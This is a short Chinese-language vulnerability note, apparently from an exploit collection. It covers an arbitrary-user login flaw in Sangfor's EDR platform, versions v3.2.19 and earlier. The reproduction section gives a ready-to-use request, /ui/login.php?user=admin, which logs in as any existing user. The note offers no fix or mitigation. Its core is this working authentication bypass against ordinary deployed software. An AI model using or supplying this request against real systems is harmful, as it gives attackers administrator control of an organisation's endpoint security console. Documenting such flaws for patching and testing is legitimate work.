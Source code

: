 # 深信服 EDR 后台任意用户登陆漏洞

## 漏洞描述

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，登录任意用户

## 漏洞影响

```
EDR <= v3.2.19
```

## 漏洞复现

https://xxx.xxx.xxx.xxx/ui/login.php?user=admin

注意最后的admin需要为存在的用户名

![img](images/202202091912509.png)

